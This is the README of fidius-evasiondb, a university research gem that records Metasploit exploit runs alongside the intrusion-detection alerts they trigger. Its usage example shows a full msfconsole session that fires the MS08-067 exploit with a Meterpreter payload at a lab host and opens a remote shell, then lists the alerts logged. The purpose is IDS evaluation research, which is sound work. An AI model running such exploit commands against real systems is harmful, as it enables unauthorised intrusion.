# FIDIUS fidius-evasiondb

The FIDIUS Evasion-DB Gem provides a database which contains knowledge about metasploit exploits and their corresponding Alert-Events produced by Intrusion Detection Systems (IDS). It includes a Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit
[fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -e

Follow the instructions. 

This Gem currently uses 2 databases:

 * ids_db: A PreludeManager-Database for fetching IDMEF-Events.
 * evasion_db: Knowledge-Database for information about Exploits and their IDMEF-Events.

Please note: The Evasion-DB Gem has only been tested with Linux systems
and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with Postgres and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or from external scripts by requiring the Gem. 
The first method (use in msfconsole) is intended to generate knowledge about exploits. You can execute any module withhin metasploit 
and log corresponding IDMEF-Events. 

Please note: Currently it is only possible to fetch IDMEF-Events from an existing and configured PreludeManager-Database. At the beginning
of a module execution timestamp and number of total events in prelude are measured. After the module is finished newly generated
events are identified via timestamp and the attackers source ip.

### In msfconsole

* example for monitoring an exploit. After loading the plugin all modules which are executed by metasploit will be monitored.
All payload which is send to the target will be stored in the Knowledge-Database. After executing of the module finished generated
IDMEF-Events will be fetched from the Prelude-Database and stored to the Knowledge-Database, too.

        $ msf > load evasiondb
        $ [*] EvasionDB plugin loaded.
        $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
        $ msf > use exploit/windows/smb/ms08_067_netapi
        $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
        $ PAYLOAD => windows/meterpreter/bind_tcp
        $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
        $ RHOST => 10.20.20.1
        $ msf exploit(ms08_067_netapi) > exploit
        $ [*] Started bind handler
        $ [*] Automatically detecting the target...
        $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
        $ [*] Selected Target: Windows XP SP2 German (NX)
        $ [*] Attempting to trigger the vulnerability...
        $ [*] Sending stage (749056 bytes) to 10.20.20.1
        $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
        $ meterpreter > exit
        $ [*] Meterpreter session 1 closed.  Reason: User exit
        $ msf exploit(ms08_067_netapi) > show_events
        $ ------------------------------------------------------------
        $ exploit/windows/smb/ms08_067_netapi with 47 options
        $ ------------------------------------------------------------
        $ 11 idmef-events fetched
        $ ------------------------------------------------------------
        $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
        $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
        $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
        $ msf exploit(ms08_067_netapi) > 

### From external script

* require gem, connect_db
* Only queries possible

### Queries

* list and explain available queries

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm+fidius-evasiondb@tzi.de>
 * Jens Färber <jfaerber+fidius-evasiondb@tzi.de>

If you have any questions, remarks, suggestion, improvements,
etc. feel free to drop a line at the addresses given above.
You might also join `#fidius` on Freenode or use the contact
form on our [website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
